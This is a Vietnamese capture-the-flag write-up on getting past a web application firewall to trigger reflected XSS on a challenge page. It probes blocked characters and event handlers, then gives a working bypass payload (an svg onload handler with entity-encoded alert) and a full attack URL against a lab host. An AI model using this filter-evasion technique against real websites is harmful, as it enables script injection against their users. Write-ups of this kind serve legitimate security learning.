

# Write-up: Vượt Qua WAF Nâng Cao trong Challenge 2 - Reflected XSS

### **Mục tiêu**

Thực thi thành công mã JavaScript trên trang `ch2-xss` thông qua lỗ hổng Reflected XSS

---

### **Giai Đoạn 1: Trinh Sát Ban Đầu và Xác Định Lỗ Hổng**

Quá trình bắt đầu bằng việc xác định cách trang web xử lý đầu vào một cách có hệ thống để hiểu rõ bề mặt tấn công.

1.  **Xác định Tham số:** ứng dụng nhận đầu vào qua tham số `input` trong URL.
    *   **URL Thử nghiệm:** `?input=Test`

2.  **Xác nhận Reflection:** truy cập `?input=Kane`, mã nguồn của trang trả về cho thấy giá trị "Kane" được chèn trực tiếp vào bên trong một thẻ `div`. Xác nhận đây là một lỗ hổng **Reflected XSS** cổ điển
    ```html
    <div id="out">Kane</div>
    ```
---

### **Giai Đoạn 2: Phân Tích Hành Vi Của WAF**

1.  **Phân tích Ký Tự Đặc Biệt Bị Chặn:**
    *   **Payload Thử nghiệm:** `<test>`
    *   **Kết quả:** Bị chặn.
    *   **Payload Thử nghiệm:** `<test`
    *   **Kết quả:** Không bị chặn.
    *   **Suy luận:** WAF chặn ký tự đóng ngoặc nhọn `>`. Bất kỳ payload nào chứa ký tự này đều bị từ chối.

2.  **Phân tích Event Handler Bị Chặn:**
    *   **Payload Thử nghiệm:** ` Bị chặn.
    *   **Payload Thử nghiệm:** ` Bị chặn.
    *   **Suy luận:** WAF có một danh sách đen các event handler nguy hiểm phổ biến.
    *   **Payload Thử nghiệm:** `<svg onload` -> Không bị chặn.
    *   **Suy luận:** Event handler `onload` không nằm trong danh sách đen hoặc có độ ưu tiên kiểm tra thấp hơn. Vector tấn công khả thi là `<svg onload=...`.

3.  **Phân tích Hàm JavaScript Bị Chặn:**
    *   **Payload Thử nghiệm:** `<svg onload=alert(1)` -> Bị chặn.
    *   **Suy luận:** WAF không chỉ chặn event handler, mà còn kiểm tra cả giá trị được gán cho nó. Chuỗi `alert(1)` rõ ràng nằm trong danh sách đen.
    *   **Payload Thử nghiệm:** `<svg onload=alert('1')` -> Vẫn bị chặn.
    *   **Suy luận:** thay đổi `(1)` thành `('1')` chưa đủ. WAF dường như đang chặn một mẫu rộng hơn, cụ thể là mẫu `onload=alert`. 

---

### **Giai Đoạn 3: Bypass và tấn công**

Những gì thu thập được:
-   Phải dùng vector `<svg onload=...`
-   Phải gọi được hàm `alert('1')`
-   Không được dùng dấu `>`
-   Phải phá vỡ mẫu `onload=alert`

Giải pháp bây giờ là encode để che giấu WAF.

**Xây dựng Payload Cuối Cùng:**
1.  **Nền tảng:** Sử dụng vector là: `<svg onload="...">`
2.  **Mã hóa tên hàm:**
    *   Hàm cần gọi: `alert`
    *   Chuyển sang HTML Entities (decimal): `a` -> `&#97;`, `l` -> `&#108;`, `e` -> `&#101;`, `r` -> `&#114;`, `t` -> `&#116;`.
    *   Kết quả mã hóa: `&#97;&#108;&#101;&#114;&#116;`
3.  **Hoàn thiện payload:** Ghép các phần lại với nhau, đảm bảo không có dấu `>`, và sử dụng hàm đã được mã hóa.
    *   `<svg onload="&#97;&#108;&#101;&#114;&#116;('1')"`

---

### **Payload cuối cùng**

URL tấn công cuối cùng đã được tạo ra bằng cách mã hóa URL payload trên để đảm bảo các ký tự đặc biệt (`&`, `#`, `"`, `'`) được gửi đi một cách chính xác.

**URL:**

http://36.50.135.185:5000/ch2-xss?input=%3Csvg%20onload=%22%26%2397;%26%23108;%26%23101;%26%23114;%26%23116;(%271%27)%22

**Kết quả:** Payload này đã bypass thành công WAF, và trình duyệt đã thực thi mã JavaScript, hiển thị một hộp thoại cảnh báo với nội dung "1".
